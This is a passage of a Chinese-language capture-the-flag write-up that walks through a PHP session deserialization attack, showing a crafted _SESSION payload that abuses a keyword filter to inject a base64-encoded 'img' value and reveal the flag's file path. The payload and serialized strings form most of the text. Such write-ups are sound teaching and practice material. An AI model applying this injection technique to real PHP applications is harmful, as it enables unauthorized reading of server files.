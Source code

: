 
  

so,

传入一个抛弃原有 img 键值对的 **新_SESSION**

  

**构造（img 值要进行编码以适应解码）**：

`f = show_image`（GET传参构造条件）

`_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

  

<br>

<br>

  

经过上述$_SESSION的取经路，

- serialize构造出一个

`a:1:{s:8:"flagflag";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";}`

  

- 过滤一下

`a:1:{s:8:"";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}";}`

  

- 真正起作用的(抛弃多余部分)

`a:1:{s:8:"";s:51:"";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

  

可以看到 img 键值已经出现且重写。

  

接收响应会得到

  

`$flag = 'flag in /d0g3_fllllllag';`

  


![](../post_pre/pics/2019/get.png)
